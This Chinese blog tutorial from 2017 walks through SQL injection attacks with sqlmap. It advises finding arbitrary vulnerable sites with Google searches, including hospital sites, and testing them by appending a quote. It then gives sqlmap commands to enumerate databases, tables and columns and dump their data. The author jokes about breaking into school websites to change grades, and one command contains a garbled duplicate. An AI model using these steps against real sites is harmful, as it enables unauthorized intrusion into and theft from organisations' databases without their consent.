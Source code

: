```yaml
---
title: "使用sqlmap执行SQL注入攻击"
categories: [ "安全" ]
tags: [ "web安全" ]
draft: false
slug: "使用sqlmap执行SQL注入攻击-使用sqlmap执行sql注入攻击"
date: "2017-04-08 09:10:41"
---
```




sqlmap是开源的SQL注入自动攻击工具，它可以自动的探测SQL注入点并且进一步控制网站的数据库。

Kali Linux默认安装了这个工具。

![][1] 

找到潜在的攻击目标

第一步是找到有SQL注入漏洞的网站。如果你没有特定攻击目标，可以使用Google搜索 php?id=1 （或php?id= ＋ xx系医院）：

找到结果中的url：

    http://www.test.com/index.php?id=1

检测是否有SQL注入漏洞；在url后添加一个’符号，使用浏览器访问：

    http://www.test.com/index.php?id=1"

如果网站没有SQL注入漏洞，使用上面的地址访问不会有问题。如果有SQL注入漏洞，会有错误输出：

![][2] 

中国很多企事业的网站都有漏洞，有很多学校网站的漏洞早已被发到了网上，这帮家伙也不修复。

入侵学校网站，修改成绩，有没有人想过:)。

关于使用sqlmap的法律问题：

> Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user’s responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

SQL注入

测试SQL注入：

    # sqlmap -u http://www.test.com/index.php?id=1 --dbs

自动探测数据库类型和漏洞，如果成功会列出数据库：

![][3] 

获得某个数据库中的表：

    # sqlmap -u sqlmap -u http://www.test.com/index.php?id=1 --dbs -D some_db --tables

获得表的字段：

    # sqlmap -u http://www.test.com/index.php?id=1 --dbs -D some_db --tables -T some_table --columns
    

下载某一字段的数据：

    # sqlmap -u http://www.test.com/index.php?id=1 --dbs -D some_db --tables -T some_table --columns -C some_col --dump

更多选项，参考man手册：

    # man sqlmap

 [1]: /uploads/oss/2017-04-25-14916426679984.png ""
 [2]: /uploads/oss/2017-04-25-14916427152575.png ""
 [3]: /uploads/oss/2017-04-25-14916427549615.png ""